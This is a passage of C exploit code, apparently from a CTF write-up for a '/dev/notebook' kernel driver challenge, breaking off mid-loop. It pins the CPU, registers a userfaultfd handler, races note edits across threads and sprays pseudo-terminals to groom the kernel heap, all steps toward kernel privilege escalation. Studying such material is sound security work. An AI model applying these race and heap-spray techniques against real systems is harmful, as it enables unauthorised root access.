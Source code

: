   sched_setaffinity(0, 1, &amp;cpu_mask); // [1]

​

  char* name = calloc(1, 0x100);

​

  sem_init(&amp;edit_go, 0, 0);

  sem_init(&amp;add_go, 0, 0);

  register_userfault();

​

  fd = open(“/dev/notebook”, 2);

  CHECK(fd);

​

  for (int i = 0; i &lt; MAX_CATCHERS; i++) `{`

    add_note(i, 0x60, name);

    edit_note(i, TARGET_SIZE, name);

  `}`

  // puts(“[=] Before dancing:”);

  // debug_display_notes();

  

  pthread_t thr;

  for (int i = 0; i &lt; MAX_CATCHERS; i++) `{`

    if (pthread_create(&amp;thr, NULL, victim_thread_edit, (void*)i)) `{`

      perror(“pthread_create”);

      exit(EXIT_FAILURE);

    `}`

  `}`

  for (int i = 0; i &lt; MAX_CATCHERS; i++) sem_post(&amp;edit_go);

  // printf(“[+] noteedit thread launched, wait for 1 second.\n”);

  sleep(1);

  int pty_masters[MAX_PTY_SPRAY], pty_slaves[MAX_PTY_SPRAY];

  for (int i = 0; i &lt; MAX_PTY_SPRAY; i++) `{`

    if (openpty(&amp;pty_masters[i], &amp;pty_slaves[i], NULL, NULL, NULL) == –1) `{`

      perror(“openpty”);

      exit(1);
